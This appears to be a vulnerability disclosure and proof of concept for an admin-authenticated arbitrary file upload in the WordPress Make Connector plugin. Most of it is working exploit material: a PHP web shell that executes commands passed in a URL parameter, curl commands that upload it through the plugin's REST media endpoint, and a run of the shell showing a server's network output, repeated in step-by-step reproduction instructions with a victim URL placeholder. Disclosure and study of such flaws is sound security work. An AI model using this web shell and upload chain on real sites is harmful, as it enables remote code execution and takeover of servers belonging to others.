 
# Make Connector <= 1.5.10 - Authenticated (Admin+) Arbitrary File Upload

The [Make Connector](https://wordpress.org/plugins/integromat-connector/) plugin does not sanitize the file types in its REST API media uploads, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF

curl -k -X POST https://lab1.hacker/wp-json/wp/v2/media \
  -H "IWC-API-KEY: YOURFRIENDLYKEYHERE" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
```

Leveraging the shell once it's in the uploads folder:
```bash
curl -k https://lab1.hacker/wp-content/uploads/2025/04/shello.php\?cmd\=ip%20addr         

<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 67461sec preferred_lft 67461sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86201sec preferred_lft 14201sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `/wp-content/integromat-connector/class/class-rest-request.php` file's `dispatch()` function will call `self::upload_media();` on line [24](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L24). This `upload_media()` function copies the uploaded file to a browsable directory `copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );` on line [74](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L74), prior to checking the allowed mime types, which it does on lines [90-95](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L90-95)

Vulnerable snipped from `class-rest-reques.php`:
```php
66	                if ( (int) $_FILES['file']['size'] === 0 ) {
67	                        Rest_Response::render_error( 500, 'The uploaded file exceeds the upload_max_filesize directive in php.ini.', 'rest_upload_unknown_error' );
68	                }
69	
70	                if ( (int) $_FILES['file']['error'] > 0 ) {
71	                        Rest_Response::render_error( 500, 'An error has occured when uploading file to the server.', 'rest_upload_unknown_error' );
72	                }
73	
74	                copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );
75	
76	                $title       = isset( $_REQUEST['title'] ) ? sanitize_title( $_REQUEST['title'] ) : '';
77	                $description = isset( $_REQUEST['description'] ) ? sanitize_text_field( $_REQUEST['description'] ) : '';
78	                $caption     = isset( $_REQUEST['caption'] ) ? sanitize_text_field( $_REQUEST['caption'] ) : '';
79	                $alt_text    = isset( $_REQUEST['alt_text'] ) ? sanitize_text_field( $_REQUEST['alt_text'] ) : '';
80	                $post_id     = isset( $_REQUEST['post'] ) ? (int) $_REQUEST['post'] : '';
81	
82	                $upload_dir = wp_upload_dir();
83	                $filename   = basename( $media_file_source );
84	                if ( wp_mkdir_p( $upload_dir['path'] ) ) {
85	                        $file = $upload_dir['path'] . '/' . $filename;
86	                } else {
87	                        $file = $upload_dir['basedir'] . '/' . $filename;
88	                }
89	
90	                $wp_file_type  = wp_check_filetype( $filename, null );
91	                $allowed_types = get_allowed_mime_types();
92	
93	                if ( ! in_array( $wp_file_type['type'], $allowed_types ) ) {
94	                        Rest_Response::render_error( 500, 'Sorry, this file type is not permitted for security reasons.', 'rest_upload_unknown_error' );
95	                }
```

## Manual Reproduction
1. Login to the admin panel and navigate to the `Make` plugin's settings, and copy the API key.
![one](./images/1.png)
2. Make a dirty web shell, or bring your own if you'd like:
```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF
```
2. Execute the following curl command to hit the plugin's media REST endpoint.
```bash
curl -k -X POST \
  https://VICTIMURLHERE/wp-json/wp/v2/media \
  -H "IWC-API-KEY: cjusksft1dwcoq43lyy6a6lf9tb6qc63" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
  -F "alt_text=Hacker Alt Text"
```
3. You will see a json response like below, but that's OK because our file already got moved :)
```json
{
    "code": "rest_upload_unknown_error",
    "message": "Sorry, this file type is not permitted for security reasons.",
    "data": {
        "status": 500
    }
}
```
4. Naviate to the webshell located at `https://lab1.hacker/wp-content/uploads/2025/04/shello.php?cmd=ip%20addr`.
